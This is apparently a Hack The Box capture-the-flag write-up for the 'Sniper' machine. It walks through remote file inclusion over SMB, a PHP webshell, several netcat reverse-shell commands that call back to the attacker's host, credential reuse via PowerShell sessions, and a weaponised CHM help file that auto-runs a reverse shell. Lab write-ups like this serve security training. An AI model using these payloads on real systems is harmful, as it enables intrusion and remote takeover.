 ```yaml
---
title: "HTB: Sniper"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Sniper](https://www.hackthebox.eu/storage/avatars/6f9b9e9836e3374e14b57096f35caf57.png)

# Sniper

## Initial Foothold

http://sniper.htb/blog/?lang=\\xx.xx.xx.xx\share\test.php is vulnerable to RFI over SMB.

We can set up a SMB server to exploit the RFI here:

Add to the bottom of /etc/samba/smb.conf:

```
[share]
path = /home/xxxx/share
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Then, chmod the directory:

```
chmod 0555 /home/xxxx/share
```

We can use the webshell found at the following github:

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Now, by visiting http://sniper.htb/blog/?lang=\xx.xx.xx.xx\share\webshell.php we are able to upload file and execute commands!

The first thing we need to do is create a new folder _C:\TEMP_ and upload nc.exe to it.

From here, we are able to run the command:

```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have a shell!

## Pivoting to User

While enumerating, we stumble upon some credentials held in C:\inetpub\wwwroot\user\db.php:

**chris:36mEAhz/B8xQ~2VM**

We can use a switch-shell with Powershell to get a semi-interactive shell:

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "sniper\chris" ; $pw = "36mEAhz/B8xQ~2VM" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```

We can now run nc.exe since this shell can execute commands. However, we need to first grant this user permissions to access it using our webshell:
```
cacls C:\TEMP /e /p chris:f
cacls C:\TEMP\nc.exe /e /p chris:f
```
Now, we can run nc.exe and receive a shell:
```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have user!

## Getting Root

We've got a note in C:/Docs that's semi helpful:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
Based on the note, it looks like whatever we drop in C:/Docs might be looked at by the administrator.

Also, in C:\Users\chris\Downloads, there's a file called instructions.chm.

A publically available exploit for chm files is available:

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

## Exploiting the CHM for Profit

We first need to unpack the chm file:

```
copy C:\Users\chris\Downloads\instructions.chm C:\TEMP
cd C:\TEMP
hh -decompile extract instructions.chm
cd extract
nc -nv xx.xx.xx.xx 4444 < a.html
```

Now, once we catch this on our machine, we can see what's in the HTML file:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

We can modify the PoC and place it in the body of our file. The end results is:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",nc,-nv xx.xx.xx.xx 4444">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

Now, because we've asked it to call run.bat in our TEMP folder, we need to create a batch script for it to run:

```
echo C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe > C:\TEMP\run.bat
```

From here, we need to create a Project.hpp file to point hh.exe at when we recompile the chm file:

```
[FILES]
<PATH TO FILES>\a.html
```

Now, we copy the Project.hpp file and a.html to a windows machine and run:

```
hhc.exe <PATH TO FILES>\Project.hpp
```

We're given a Project.chm file in the same folder that held Project.hpp. We can copy this over to the victim machine, place it in C:\Docs and wait for it to return a shell to us!

```
C:\>whoami
whoami
sniper\administrator
```

